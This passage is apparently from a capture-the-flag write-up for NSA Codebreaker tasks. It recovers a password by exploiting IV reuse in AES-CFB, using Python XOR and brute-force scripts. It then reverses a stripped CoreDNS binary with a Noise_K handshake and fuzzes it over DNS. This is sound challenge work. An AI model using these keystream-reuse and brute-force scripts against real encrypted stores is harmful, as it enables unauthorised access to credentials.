        if not os.path.isdir(dirname):
            print('Unknown master password, please init first')
        else:
            service = input('Enter the service name:  ')
            filename = dirname + '/' + service
            if os.path.isfile(filename):
                print('A password was already stored for that service.')
            else:
                pass_len = int(input('Enter the password length (default 18):  ') or '18')
                spassword = generate_password(pass_len)
                save_password(filename, password, spassword)
    elif command == 'help':
        usage()
    else:
        print('Unknown command')
if __name__ == '__main__':
    main()
```

Ok, on first glance, this looks pretty secure aka uninteresting. I thought that too, until I looked at a pretty small detail in the `encrypt_password()` function: 

```
def encrypt_password(spassword: str, password: str) -> bytes:
    key = derive_key(password)
    ts = str(int(time.time() / 60)).encode('utf-8')
    iv = hashlib.md5(ts).digest()
    cipher = Cipher(algorithms.AES(key), modes.CFB(iv), backend=default_backend())
    encryptor = cipher.encryptor()
    encrypted_password = encryptor.update(spassword.encode()) + encryptor.finalize()
    return iv + encrypted_password

def decrypt_password(encrypted_data: bytes, password: str) -> str:
    key = derive_key(password)
    iv = encrypted_data[:16]
    encrypted_password = encrypted_data[16:]
    cipher = Cipher(algorithms.AES(key), modes.CFB(iv), backend=default_backend())
    decryptor = cipher.decryptor()
    decrypted_password = decryptor.update(encrypted_password) + decryptor.finalize()
    return decrypted_password.decode()
```

We are using AES-CFB, which is described in this graph here:


AES in CFB mode has a block size of 16 bytes. And in basic terms:

**Ciphertext of block #1 = E(IV, key) ^ 16-bytes of Plaintext**

**Ciphertext of block #2 = Ciphertext of block #1 ^ 16-bytes of Plaintext**

**AND SO ON ...**

Why is this so important? Well, if we remember the conversation between B055M4N and 570RM, the AWS password is stored using the password manager program.

And since we know the plaintext password (or 16 bytes of it) and the encrypted password, we can easily get back the key function by using XORing the ciphertext by the plaintext! 

How? Essentially XOR is commutative and associative, so we can do as such and be able to decrypt other ciphertexts (hopefully):

**Ciphertext of block #1 = E(IV, key) ^ 16-bytes of Plaintext** 

**16-bytes of Plaintext ^ Ciphertext of block #1 = E(IV, key)**

Ok, but what now and does it even matter? Since the key function E(IV, key) is dependant on time, wouldn't the functions be different for each password? That detail had me questioning for a while, wondering if all hope was lost, until out of the blue, I discovered a detail (on accident).

Using `ls -al` on linux in the passwords folder, I realized that in fact both the AWS and USB passwords were encrypted at the same time! 

```
drwxr-xr-x 2 user user4096 Aug 15 10:53 .
drwxr-xr-x 3 user user4096 Aug 15 10:53 ..
-rw-r--r-- 1 user user  34 Aug 11 23:01 AmazonWebServices
-rw-r--r-- 1 user user  34 Aug 14 03:12 Apple
-rw-r--r-- 1 user user  34 Aug 14 23:27 Discord
-rw-r--r-- 1 user user  34 Aug 10 13:20 Facebook
-rw-r--r-- 1 user user  34 Aug 15 00:00 FileShare
-rw-r--r-- 1 user user  34 Aug 14 03:56 Github
-rw-r--r-- 1 user user  34 Aug 13 21:07 Google
-rw-r--r-- 1 user user  34 Aug  9 19:00 Hulu
-rw-r--r-- 1 user user  34 Aug 14 16:03 Instagram
-rw-r--r-- 1 user user  34 Aug 14 07:11 laptop
-rw-r--r-- 1 user user  34 Aug 14 14:23 LinkedIn
-rw-r--r-- 1 user user  34 Aug 11 06:02 Microsoft
-rw-r--r-- 1 user user  34 Aug 10 01:00 Netflix
-rw-r--r-- 1 user user  34 Aug 14 18:16 Peacock
-rw-r--r-- 1 user user  34 Aug  8 17:10 ProtonMail
-rw-r--r-- 1 user user  34 Aug  9 10:33 Reddit
-rw-r--r-- 1 user user  34 Aug  9 05:11 Samsung
-rw-r--r-- 1 user user  34 Aug 12 00:34 Skype
-rw-r--r-- 1 user user  34 Aug 15 08:48 Slack
-rw-r--r-- 1 user user  34 Aug 14 03:08 Snapchat
-rw-r--r-- 1 user user  34 Aug  8 18:14 Spotify
-rw-r--r-- 1 user user  34 Aug 12 13:23 Steam
-rw-r--r-- 1 user user  34 Aug 15 10:53 TikTok
-rw-r--r-- 1 user user  34 Aug 10 23:54 Twitter
-rw-r--r-- 1 user user  34 Aug 11 23:01 USB-128
-rw-r--r-- 1 user user  34 Aug 12 18:26 WhatsApp
-rw-r--r-- 1 user user  34 Aug  9 08:24 YouTube
-rw-r--r-- 1 user user  34 Aug 11 23:51 Zoom
```
Both of them were created on **34 Aug 11 23:01**! So we can do the following:


**16-bytes of AWS ^ AWS Ciphertext of block #1 = E(IV, key)**

**USB Ciphertext of Block #1 ^ E(IV, key) = 16-bytes of USB**

I created the script here:

```py
from pwn import *

pt = b'{nv,*R=*7Qww5<J8:;'

ct = open('.passwords/6b6bf17d23d8a14a1ce0b97639b02d5e/AmazonWebServices', 'rb').read()
ct2 = open('.passwords/6b6bf17d23d8a14a1ce0b97639b02d5e/USB-128', 'rb').read()


Ekey_iv = xor(pt, ct[16:])
print(Ekey_iv)
print(len(Ekey_iv))

pt2 = (xor(Ekey_iv, ct2[16:]))
print(pt2)
```

Hooray! We get the password of <strong>sIik`|0>4gFXg}0i%\xc3</strong>! *Or do we?*

Unfortunately the USB password most likely was 18 characters, similar to the AWS password. So for our final step in getting that full USB password, we have to guess the last 2-3 bytes of the 15-16 bytes THAT WE ARE SURE OF, ensuring data corruption from XOR is mitigated (it happens).

So what now? My guess was to basically just brute force the decryption process by repeatedly trying to decrypt the USB drive with the password + 2 or 3 guessed bytes. The only problem was figuring out wtf it was encrypted with.

Mounting the USB drive we get data, a lock shell script, and an unlock shellscript

```
drwxr-xr-x  2 user user 32768 Jul 31 21:02 .bin
drwxr-xr-x  2 user user 32768 Jul 31 21:02 .data
drwxr-xr-x  2 user user 32768 Jul 31 21:02 data
-rw-r--r--  1 user user    76 Jul 31 21:02 lock
-rw-r--r--  1 user user    91 Jul 31 21:02 unlock
```

Looking at lock we get: 

```
#!/bin/bash
cd "$(dirname "$0")"
sleep 1
sync
fusermount -u ./data
sleep 1
```

and unlock: 

```
#!/bin/bash
cd "$(dirname "$0")"
sleep 1
exec ./.bin/gocryptfs "$@" -i 60s ./.data ./data
```

So we found what encryption the USB is using: [gocryptfs](https://github.com/rfjakob/gocryptfs). However, we don't really need to care about gocryptfs other than it was used to encrypt the files. Running the unlock script, it prompts us for a password, which we can brute force into to solve.

Here's the solution script that successfully brute forces the correct password and unlocks the encrypted data:

```python
import subprocess
import itertools
import string
from pwn import *
import time

# Base password without the last two characters
base_password = "sIik`|0>4gFXg}0"

# Function to try a password and check if mounting is successful
character_list = string.ascii_letters + string.digits + string.punctuation
elf = './unlock'

for char in character_list:
  for char2 in character_list:
    r = process(elf)    
    password_guess = base_password + char + char2
    print(password_guess)
    r.sendline(password_guess.encode())
    response = r.recvall()
    print(response)
    if b'Password incorrect' not in response:
        print(password_guess)
```

To our luck, we successfully obtain the correct password to unlock the USB and can move on to the next task!

* In hindsight this could have had a forensics tag due to the crucial detail of file generation time but idk.

## Task 6 - It's always DNS
> The recovered data indicates the APT is using a DNS server as a part of their operation. The triage team easily got the server running but it seems to reply to every request with errors.
>
> You decide to review past SIGINT reporting on the APT. Why might the APT be targeting the Guardian Armaments JCTV firmware developers? Reporting suggests the APT has a history of procuring information including the location and movement of military personnel.
> 
> Just then, your boss forwards you the latest status update from Barry at GA. They found code modifications which suggest additional DNS packets are being sent via the satellite modem. Those packets probably have location data encoded in them and would be sent to the APT.
>
> This has serious implications for national security! GA is already working on a patch for the firmware, but the infected version has been deployed for months on many vehicles.
> 
> The Director of the NSA (DIRNSA) will have to brief the President on an issue this important. DIRNSA will want options for how we can mitigate the damage.
>
> If you can figure out how the DNS server really works maybe we will have a chance of disrupting the operation.
>
> Find an example of a domain name (ie. foo.example.com.) that the DNS server will handle and respond with NOERROR and at least 1 answer. 

This task was a nightmare (I took 45 days to solve this). 

So first off, the content unlocked in task 5 provides us with three files: `coredns`, `Corefile`, and `microservice`. Both `coredns` and `microservice` are binaries, so at first I was confused on which one to attack first. However, due to the name and focus on DNS, after a diligent look at both, I decided to focus my efforts towards the `coredns` binary.

### Making coredns normal

Opening it up with the decompiler... oh man.


**THIS BINARY IS STRIPPED OF SYMBOLS!!!**

As you can see, this looks really messed up, to put it lightly. And not only is it stripped, but it's golang. Amazing. All it looks like to me is a heap of garbage and eyesores. 

What a stripped binary means simply is that all references to symbols aka function names and whatnot are basically replaced, obfuscating program flow and readibility. In a less geek-y term it's basically **very hard to read**.

I'm super lazy and am not pulling all nighters guessing program flow and renaming variables and symbols and whatnot. Thankfully, the great researchers over at Mandiant / Google Cloud blessed me with the great [GoReSym](https://github.com/mandiant/GoReSym), which effectively can help recover symbols, types, and other useful stuff. What's even more amazing is that they have scripts that can be used for disassemblers, which means it can help in "guessing" back the function names and variable names and whatnot for this stripped golang binary. Woohoo. 

Running the script we see the immediate change:


Much nicer! Now we can actually try to reverse the binary!

### Reversing coredns

Since this is a really large binary, first thing I did is go surface-level, then locate the "custom" functionality and just hone in on analyzing those. 

Looking at the corefile, I see numerous "plugins" that match functions in the coredns binary:

```
.:1053 {
  acl {
    allow type A
    filter
  }
  view firewall {
    expr type() == 'A' && name() matches '^x[^.]{62}\\.x[^.]{62}\\.x[^.]{62}\\.net-w77ls5pf\\.example\\.com\\.$'
  }
  log
  cache 3600
  errors
  frontend

}
```

The corefile basically provides the plugins for coredns to use, with the plugins being "functions" in coredns.

Ok, so we know that the binary will only accept "A" records, and the domain name has to match the regex of x[62 char].x[62 char].x[62 char].net-w77ls5pf.example.com. 

Yet again laziness comes to save the day, so instead of reading + analyzing each plugin called in corefile I went online to the official coredns website https://coredns.io/plugins/ and just tried to find a plugin that was not listed in the official site. We found one! It's **frontend**! Now we can just reverse engineer and understand whatever the frontend plugin is in the coredns binary!

We also find a `debug` plugin, which will be useful in trying to understand code when running, so we can just append that to the end of the corefile.

Reading the recovered symbols, references to *frontend* lead us to a majority of symbols that start with **example**, and... it's a lot.


Anddddd unfortunately ghidra does an extremely bad job of maintaining code so this is going to be extremely difficult + painful *(a lot of the recovered functions are kinda "pieced" out, requiring multiple decompiles to get the compelete "code")*.

So first thing we always love to do is start from the surface-level. If we were to send an A record to frontend, how would it process it behind the scenes?

In `github.com/coredns/example.Frontend.ServeDNS`, we find that our domain name is processed:

```
    github.com/coredns/coredns/request.(*Request).QName(&stack0x00000170);
    github.com/coredns/example.name2buffer();
```
With example.name2buffer() processing our string by splitting the string by ".", then combining them into one string, then truncating x and y, and replacing z with an =. Then it uppercases our string and decodes it using golang's base32 decode function.

```
  splitted_name = strings.genSplit(param_10,param_11,".",1,0,4);
  puVar1 = splitted_name._0_8_;
  if (3 < splitted_name._8_8_) {
    splitted_name =
         runtime.concatstring3(0,*puVar1,puVar1[1],puVar1[2],puVar1[3],puVar1[4],puVar1[5]);
    splitted_name =
         strings.Replace(splitted_name._0_8_,splitted_name._8_8_,&DAT_02370a75,4,0,0,
                         0xffffffffffffffff);
    splitted_name =
         strings.Replace(splitted_name._0_8_,splitted_name._8_8_,&DAT_029b2c98,1,0,0,
                         0xffffffffffffffff);
    splitted_name =
         strings.Replace(splitted_name._0_8_,splitted_name._8_8_,&DAT_029b2ca0,1,0,0,
                         0xffffffffffffffff);
    strings.Replace(splitted_name._0_8_,splitted_name._8_8_,&DAT_029b2c80,1,"=",1,0xffffffffffffffff
                   );
    splitted_name = strings.ToUpper();
    encoding/base32.(*Encoding).DecodeString(DAT_03c1b808,splitted_name._0_8_,splitted_name._8_8_);
    if (extraout_RDI != 0) {
      runtime.concatstring3(0,&DAT_02374298,7,"frontend",8,&DAT_0236fec3,2);
                    /* WARNING: Subroutine does not return */
      runtime.newobject(&DAT_01f0d540);
    }
    return ZEXT4056(CONCAT832(extraout_RCX,
                              CONCAT824(extraout_RBX,
                                        CONCAT816(extraout_RAX,*(undefined (*) [16])(puVar1 + 4)))))
    ;
  }
                    /* WARNING: Subroutine does not return */
  runtime.newobject(&errors.errorString);
}
```
Ok so now we know we must prepare a base32 encoded *something* into the domain name in order for coredns to successfully decode and process it. 

```
[ERROR] plugin/frontend: error decoding input: x-b3zEe4Hd0VthSOg7MYtw7-Jczzzm5ofznte78cI66xX-NMC6_ldg1LKCAsS5N.xiDVu2qsb-P-nZ2ZCp2Q17ISKG_DzYw0b4MQeFJm7hrLlxLp0SmgLack0502oqh.xy3xiSXpdZYJXhcVX2dVuZlpJi8d8OJpqybE4lrKvv9zpIvF3jd3ebcCTQqTrDp.net-w77ls5pf.example.com. as: -B3=EE4HD0VTHSOG7MYTW7-JC===M5OF=NTE78CI66X-NMC6_LDG1LKCASS5NIDVU2QSB-P-NZ2ZCP2Q17ISKG_D=YW0B4MQEFJM7HRLLLP0SMGLACK0502OQH3ISXPDZYJXHCVX2DVUZLPJI8D8OJPQBE4LRKVV9=PIVF3JD3EBCCTQQTRDP
```

Unfortuntately, sending a randomly encoded base32 string just throws an error, so we need to keep reversing to understand why.


What's next? The plugin calls `noiseRecv`, which seemingly takes our processed data and does something(?) with it.

```
github.com/coredns/example.NoiseRecv(in_stack_000000f8,in_stack_000000a8,in_stack_000000b0);
```

Within `github.com/coredns/example.NoiseRecv()`, we can see more of what the code is doing:

```
  github.com/coredns/example.InitSession(0,&stack0x0000024f,0);
  *param_1 = in_stack_00000060;
  auVar3 = FUN_00472178();
  if (0x1f < in_stack_00000388) {
    if (0x1f < in_stack_00000380) {
      FUN_00471f50();
      uVar1 = FUN_004722ba();
      github.com/coredns/example.RecvMessage(uVar1,&stack0x00000268);
      if (extraout_R8 != 0) {
        auVar2._0_16_ = ZEXT816(0);
        auVar2._16_8_ = 0;
        auVar2._24_8_ = extraout_R8;
        auVar2._32_8_ = extraout_R9;
        return auVar2;
      }
      if (extraout_SIL != '\0') {
        return ZEXT2440(CONCAT816(extraout_RDI,CONCAT88(extraout_RCX,extraout_RBX)));
      }
                    /* WARNING: Subroutine does not return */
      runtime.newobject(&errors.errorString);
    }
    auVar3 = runtime.panicSliceB(0x20);
  }
```

The functions calls an InitSession and a RecvMessage function. 

In initSession, it seems to call initializeResponder or initializeInitator based on a boolean value:

```
  if (cVar1 == '\0') {
    github.com/coredns/example.initializeResponder(extraout_RBX,extraout_RCX,param_4);
    local_318 = local_498[0];
    FUN_004721e8();
    local_1d0 = local_318;
    FUN_004721e8();
  }
  else {
    github.com/coredns/example.initializeInitiator(extraout_RBX,extraout_RCX,param_4);
    local_318 = local_498[0];
    FUN_004721e8();
    local_1d0 = local_318;
    FUN_004721e8();
  }
```

Looking into either, we can see references to cryptographic protocols, namely a string that says `Noise_K_25519_blake2s`. 25519 is a reference to an elliptical curve and blake2s is a hash function. Maybe this whole thing is some cryptographic communication?

Let's look at RecvMessage. 

```
  if (param_10[0x37] == 0) {
    local_10 = param_2;
    github.com/coredns/example.readMessageA();
    param_10[0x29] = local_120;
    param_10[0x2a] = uStack_118;
    param_10[0x2b] = local_110;
    param_10[0x2c] = uStack_108;
    param_10[0x2d] = local_100;
    param_10[0x2e] = local_f8;
    param_10[0x2f] = uStack_f0;
    local_20 = (undefined4)local_e8;
    uStack_1c = (undefined4)((uint)local_e8 >> 0x20);
    uStack_18 = (undefined4)uStack_e0;
    uStack_14 = (undefined4)((uint)uStack_e0 >> 0x20);
    *(undefined4 *)(param_10 + 0x30) = local_20;
    *(undefined4 *)((int)param_10 + 0x184) = uStack_1c;
    *(undefined4 *)(param_10 + 0x31) = uStack_18;
    *(undefined4 *)((int)param_10 + 0x18c) = uStack_14;
    *param_10 = in_XMM15_Qa;
    param_10[1] = in_XMM15_Qb;
    FUN_00471efd();
    param_2 = local_10;
  }
  if (param_10[0x37] != 0) {
    if (*(char *)(param_10 + 0x38) == '\0') {
      github.com/coredns/example.readMessageRegular(param_10 + 0x2d,param_2);
    }
    else {
      github.com/coredns/example.readMessageRegular(param_10 + 0x2d,param_2);
    }
  }
```
Ok, so we see a readMessageA and a readMessageRegular. Could readMessageA be a reason as to why coredns only accepts A records?

Looking into readMessageA, we see a bunch of stuff:

```
  param_16 = param_1;
  param_17 = param_2;
  while (local_200 <= *(undefined **)(unaff_R14 + 0x10)) {
    runtime.morestack_noctxt();
  }
  cVar6 = github.com/coredns/example.validatePublicKey(param_17,0x20);
  if (cVar6 != '\0') {
    uVar4 = param_17[1];
    *(undefined8 *)(param_16 + 0x108) = *param_17;
    *(undefined8 *)(param_16 + 0x110) = uVar4;
    uVar1 = *(undefined4 *)((int)param_17 + 0x14);
    uVar2 = *(undefined4 *)(param_17 + 3);
    uVar3 = *(undefined4 *)((int)param_17 + 0x1c);
    *(undefined4 *)(param_16 + 0x118) = *(undefined4 *)(param_17 + 2);
    *(undefined4 *)(param_16 + 0x11c) = uVar1;
    *(undefined4 *)(param_16 + 0x120) = uVar2;
    *(undefined4 *)(param_16 + 0x124) = uVar3;
  }
  github.com/coredns/example.mixHash(param_16,param_16 + 0x108,0x20,0x20);
  local_1b0 = *(undefined8 *)(param_16 + 0x108);
  uStack_1a8 = *(undefined8 *)(param_16 + 0x110);
  uVar4 = *(undefined8 *)(param_16 + 0x118);
  uVar5 = *(undefined8 *)(param_16 + 0x120);
  local_170 = *(undefined8 *)(param_16 + 0x88);
  uStack_168 = *(undefined8 *)(param_16 + 0x90);
  local_160 = *(undefined8 *)(param_16 + 0x98);
  uStack_158 = *(undefined8 *)(param_16 + 0xa0);
  local_120._0_4_ = (undefined4)uVar4;
  local_120._4_4_ = (undefined4)((uint)uVar4 >> 0x20);
  uStack_118._0_4_ = (undefined4)uVar5;
  uStack_118._4_4_ = (undefined4)((uint)uVar5 >> 0x20);
  local_1a0 = (undefined4)local_120;
  uStack_19c = local_120._4_4_;
  uStack_198 = (undefined4)uStack_118;
  uStack_194 = uStack_118._4_4_;
  local_130 = local_1b0;
  uStack_128 = uStack_1a8;
  local_120 = uVar4;
  uStack_118 = uVar5;
  golang.org/x/crypto/curve25519.scalarMult(local_1f0,&local_170,&local_1b0);
  github.com/coredns/example.mixKey(param_16);
  local_1d0 = *(undefined8 *)(param_16 + 0xe8);
  uStack_1c8 = *(undefined8 *)(param_16 + 0xf0);
  uVar4 = *(undefined8 *)(param_16 + 0xf8);
  uVar5 = *(undefined8 *)(param_16 + 0x100);
  local_190 = *(undefined8 *)(param_16 + 0x88);
  uStack_188 = *(undefined8 *)(param_16 + 0x90);
  local_180 = *(undefined8 *)(param_16 + 0x98);
  uStack_178 = *(undefined8 *)(param_16 + 0xa0);
  local_140._0_4_ = (undefined4)uVar4;
  local_140._4_4_ = (undefined4)((uint)uVar4 >> 0x20);
  uStack_138._0_4_ = (undefined4)uVar5;
  uStack_138._4_4_ = (undefined4)((uint)uVar5 >> 0x20);
  local_1c0 = (undefined4)local_140;
  uStack_1bc = local_140._4_4_;
  uStack_1b8 = (undefined4)uStack_138;
  uStack_1b4 = uStack_138._4_4_;
  local_150 = local_1d0;
  uStack_148 = uStack_1c8;
  local_140 = uVar4;
  uStack_138 = uVar5;
  golang.org/x/crypto/curve25519.scalarMult(local_210,&local_190,&local_1d0);
  github.com/coredns/example.mixKey(param_16);
  github.com/coredns/example.decryptAndHash(param_16,param_17[7],param_17[8],param_17[9]);
  local_20 = extraout_RBX;
  local_18 = extraout_R9;
  local_10 = extraout_R8;
  github.com/coredns/example.split(param_16);
  auVar7._8_8_ = extraout_RCX;
  auVar7._0_8_ = local_20;
  auVar7._16_8_ = extraout_RDI;
  auVar7[0x18] = extraout_SIL;
  auVar7._25_7_ = 0;
  auVar7._32_8_ = local_10;
  auVar7._40_8_ = local_18;
  return auVar7;
```

readMessageRegular doesn't really have any important stuff besides decrypting, so I just decided to ignore it:

```
undefined8 github.com/coredns/example.readMessageRegular(undefined8 param_1,int param_2)

{
  int unaff_R14;
  
  while (&stack0x00000000 <= *(undefined **)(unaff_R14 + 0x10)) {
    runtime.morestack_noctxt();
  }
  github.com/coredns/example.decryptWithAd
            (param_1,&DAT_03c5c3e0,0,0,*(undefined8 *)(param_2 + 0x38),
             *(undefined8 *)(param_2 + 0x40),*(undefined8 *)(param_2 + 0x48));
  return param_1;
}

```

Ok let's focus on the real focus of these two. readMessageA has a lot of cryptography. The notable thing is that it seems to validate a public key, and performs scalarMult and mixHash twice. This hints towards the fact that readMessageA must be some kind of diffie-hellman cryptographic handshake.

Within readMessageA, looking at `validatePublicKey()`, we see a LOT of hardcoded values:

```
  local_2a8 = 0xaeb8413b7c7aebe0;
  uStack_2a0 = 0x6ac49ff1fae35616;
  local_298 = 0xfdb1329ceb8d09da;
  uStack_290 = 0xb8495f16056286;
  local_218 = &local_2a8;
  local_210 = 0x20;
  local_208 = 0x20;
  local_2c8 = 0x248c50a3bc959c5f;
  uStack_2c0 = 0x5bef839c55b1d0b1;
  local_2b8 = 0x868e1c58c45c4404;
  uStack_2b0 = 0x57119fd0dd4e22d8;
  local_200 = &local_2c8;
  local_1f8 = 0x20;
  local_1f0 = 0x20;
  local_2e8 = 0xffffffffffffffec;
  uStack_2e0 = 0xffffffffffffffff;
  local_2d8 = 0xffffffffffffffff;
  uStack_2d0 = 0x7fffffffffffffff;
  local_1e8 = &local_2e8;
  local_1e0 = 0x20;
  local_1d8 = 0x20;
  local_308 = 0xffffffffffffffed;
  uStack_300 = 0xffffffffffffffff;
  local_2f8 = 0xffffffffffffffff;
  uStack_2f0 = 0x7fffffffffffffff;
  local_1d0 = &local_308;
  local_1c8 = 0x20;
  local_1c0 = 0x20;
  local_328 = 0xffffffffffffffee;
  uStack_320 = 0xffffffffffffffff;
  local_318 = 0xffffffffffffffff;
  uStack_310 = 0x7fffffffffffffff;
  local_1b8 = &local_328;
  local_1b0 = 0x20;
  local_1a8 = 0x20;
  local_348 = 0xaeb8413b7c7aebcd;
  uStack_340 = 0x6ac49ff1fae35616;
  local_338 = 0xfdb1329ceb8d09da;
  uStack_330 = 0x80b8495f16056286;
  local_1a0 = &local_348;
  local_198 = 0x20;
  local_190 = 0x20;
  local_368 = 0x248c50a3bc959c4c;
  uStack_360 = 0x5bef839c55b1d0b1;
  local_358 = 0x868e1c58c45c4404;
  uStack_350 = 0xd7119fd0dd4e22d8;
  local_188 = &local_368;
  local_180 = 0x20;
  local_178 = 0x20;
  local_388 = 0xffffffffffffffd9;
  uStack_380 = 0xffffffffffffffff;
  local_378 = 0xffffffffffffffff;
  uStack_370 = 0xffffffffffffffff;
  local_170 = &local_388;
  local_168 = 0x20;
  local_160 = 0x20;
  local_3a8 = 0xffffffffffffffda;
  uStack_3a0 = 0xffffffffffffffff;
  local_398 = 0xffffffffffffffff;
  uStack_390 = 0xffffffffffffffff;
  local_158 = &local_3a8;
  local_150 = 0x20;
  local_148 = 0x20;
  local_3c8 = 0xffffffffffffffdb;
  uStack_3c0 = 0xffffffffffffffff;
  local_3b8 = 0xffffffffffffffff;
  uStack_3b0 = 0x19ffffffffffffff;
  local_138 = 0x20;
  local_130 = 0x20;
  local_140 = (undefined *)&local_3c8;
  auVar5 = FUN_00472204();
  piVar2 = local_128;
  iVar3 = 0;
  while( true ) {
    if (0xb < iVar3) {
      return 1;
    }
    if (piVar2[1] == auVar5._8_8_) {
      dVar1 = 0;
      for (iVar4 = 0; iVar4 < auVar5._8_8_; iVar4 = iVar4 + 1) {
        dVar1 = dVar1 | *(byte *)(auVar5._0_8_ + iVar4) ^ *(byte *)(*piVar2 + iVar4);
      }
      dVar1 = (dword)(dVar1 - 1) >> 0x1f;
    }
    else {
      dVar1 = 0;
    }
    if (dVar1 == 1) break;
    piVar2 = piVar2 + 3;
    iVar3 = iVar3 + 1;
  }
  return 0;
}
```
Researching these hardcoded values shows that these are *BANNED* low order points for curve25519! More info in this link: https://cr.yp.to/ecdh.html. Basically these just undermine scalarmult through some *magic* math that will make the output of scalarmult zero. Which is not good apparently. I'm not a cryptographer.

Ok, so this whole readMessageA appears to be a cryptographic handshake using elliptic curve cryptography. More notably, all of this code references the [Noise Protocol Framework](http://www.noiseprotocol.org/noise.html), which utilizes ECDH or a form of it to authenticate.

Let's go back. Let's say we successfully authenticated ourselves through the noise protocol. What next?

Well in `serveDNS`, the program will do `doForwardData`:

```
  puStack0000000000000128 = param_1;
  uVar1 = github.com/coredns/example.doForwardData
                    (in_stack_000000c8,in_stack_00000088,in_stack_00000090);
```

```
  net/http.NewRequestWithContext
            (&interface_context.Context_impl_context.backgroundCtx,&DAT_03c5c3e0,"POST",4,
             "http://localhost:3000/event/insertflag provided but not defined: -%sslice bounds out o f range [:%x:%y]slice bounds out of range [%x:%y:]SIGURG: urgent condition on socketout  of memory allocating allArenas/memory/classes/heap/objects:bytesruntime.SetFinalizer: cannot pass too many pages allocated in chunk?mspan.ensureSwept: m is not lockedruntime : netpollBreak write failedforEachP: sched.safePointWait != 0schedule: spinning with lo cal workruntime: standard file descriptor runtime: g is running but p is notdoaddtimer:  P already set in timertrace: non-empty full trace buffererror inspecting server blocks : %vgetting file packet connection: %vempty NSEC(3) block in type bitmaprepeated SVCB k eys are not allowedno blank after $GENERATE-directivemissing TTL with no previous value gateway type none with gateway setsigner name doesn\'t match key namedns: svcbalpn: unt erminated escapeunexpected unsupported metric kindlabel name %q missing in label map: d ay-of-year does not match monthhttps://login.microsoftonline.com/https://gallery.usgovc loudapi.net/mariadb.database.usgovcloudapi.netdev.azuresynapse.usgovcloudapi.netpostgre s.database.chinacloudapi.cnhttps://database.chinacloudapi.cn/35527136788005009293556213 37890625dns/v1/projects/{project}/policiescrypto/rsa: missing public modulusexpected an  RSA public key, got %TTLS_ECDHE_RSA_WITH_AES_128_CBC_SHATLS_ECDHE_RSA_WITH_AES_256_CBC _SHAconnection doesn\'t support Ed25519tls: malformed key_share extensionTLS 1.3, serve r CertificateVerify"
             ,0x22,&interface_io.Reader_impl_*bytes.Reader,param_1);
  if (extraout_RBX != 0) {
    return 3;
  }
  net/textproto.CanonicalMIMEHeaderKey("Content-Type",0xc);
                    /* WARNING: Subroutine does not return */
  runtime.newobject(&DAT_01f0de40);
```

This sends a POST request which is probably our goal for this entire task: pass authentication, decrypt our data and POST that decrypted data.

### Noise protocol

We found the cryptographic protocol. Now how do we find a weakness??? `validatePublicKey()` eliminates the low-order point attack (learned it the VERY hard way after like 2 weeks of trying) since it basically verifies for low order points that can bypass the scalarMult function in golang (the function is deprecated btw). So after long days of contemplating and researching, I found an amazing resource on the Noise protocol. 

The site found was https://noiseexplorer.com/. It basically provides info on all the noise protocol. Thankfully as we found earlier, the program is using the one-way K handshake (https://noiseexplorer.com/patterns/K/).


And here's a summary:

*"The initiator is initialized with a pre-shared long-term static key, which is assumed to be pre-authenticated out of band by the responder.*

*The responder is initialized with a pre-shared long-term static key, which is assumed to be pre-authenticated out of band by the initiator.*

*Message A, sent by the initiator, benefits from receiver authentication but is vulnerable to Key Compromise Impersonation. If the responder's long-term private key has been compromised, this authentication can be forged. However, if the initiator carries out a separate session with a separate, compromised responder, this other session can be used to forge the authentication of this message with this session's responder."*

The site also provides code to read + write in the noise k protocol [go implementation](blob:https://noiseexplorer.com/f5115a88-fe29-4da1-bcb3-555840970fc3)... and guess what. The code is (mostly) the same as the implementation in the coredns binary *(I won't verify it in this writeup, but feel free to on your own by compiling the go file and seeing it in the decompiler along with the coredns binary)*. We basically have coredns's noise protocol source code to compare and peform operations with to successfully encrypt data.

Looking into writeMessageA (what we have to send), noise k provides a basic pseudocode:

```
letfun writeMessage_a(me:principal, them:principal, hs:handshakestate, payload:bitstring, sid:sessionid) =
let (ss:symmetricstate, s:keypair, e:keypair, rs:key, re:key, psk:key, initiator:bool) = handshakestateunpack(hs) in
let (ne:bitstring, ns:bitstring, ciphertext:bitstring) = (empty, empty, empty) in
let e = generate_keypair(key_e(me, them, sid)) in
let ne = key2bit(getpublickey(e)) in
let ss = mixHash(ss, ne) in
(* No PSK, so skipping mixKey *)
let ss = mixKey(ss, dh(e, rs)) in
let ss = mixKey(ss, dh(s, rs)) in
let (ss:symmetricstate, ciphertext:bitstring) = encryptAndHash(ss, payload) in
let hs = handshakestatepack(ss, s, e, rs, re, psk, initiator) in
let message_buffer = concat3(ne, ns, ciphertext) in
let (ssi:symmetricstate, cs1:cipherstate, cs2:cipherstate) = split(ss) in
(hs, message_buffer, cs1, cs2).
```
We basically have to preform a cryptographic handshake with our static public key / private elliptic keypair, an ephemereal keypair and with the server's static public key. We also now know we have to send a buffer of the ephemereal static public key + shared static public key + encrypted ciphertext after our handshake

They gave us the vulnerability. **Key Compromise Impersonation**. But the problem is how tf do we even get the static keys? As you can see by the code snippets, ghidra does a bad job of decompiling our coredns program, plus the values arent even hardcoded in the decopmiler. WTF now???

### Accidental reveal

Well this aspect of where the static public keys could be left me lost... but it should be somewhere! I tried for like a few days, but after like the 11th day I just began fuzzing coredns to see if anything would happen.

I thought, if y truncates the string, what if I just send all y as the payload? Surely that will cause an error in how the server parses the string! And thankfully something strange happens!

So I wrote a quick dns ping script that conforms to the dns domain name requirement:

```
import base64
import dns.resolver
import time

def dns_ping(domain):
    resolver = dns.resolver.Resolver()
    resolver.nameservers = ['127.0.0.1']
    resolver.port = 1053
    
    try:
        answers = resolver.resolve(domain, 'A')
        for rdata in answers:
            print(f"Reply from {rdata.address}")
    except Exception as e:
        print(f"Error: {str(e)}")

def base32hex_encode(hex_bytes):
    # Convert the hex byte list to bytes
    byte_data = bytes(hex_bytes)
    
    # Encode to base32hex and remove padding
    encoded = base64.b32hexencode(b'').decode('utf-8')
    
    return encoded.lower()  # Convert to lowercase as per standard

#group data 
# Your input hex bytesn
byte_data = bytes.fromhex("")


new = base64.b32hexencode(byte_data).decode()

domain = ('x' + 'y' *(62) + '.x' + 'y' * (62) + '.x' + 'y' * (62) + '.net-w77ls5pf.' + 'example.com.').replace("=", "z")

print(domain)

dns_ping(domain)
```


Wow! Ok, so we can see that the program panics because it can't split anything! And we see some **very** interesting byte values in the NoiseRecv() parameters.

Well, we can see that for the second parameter, there seems to be *two* values? The first "index" also seems to be an array of bytes... That must be the server's key pair!

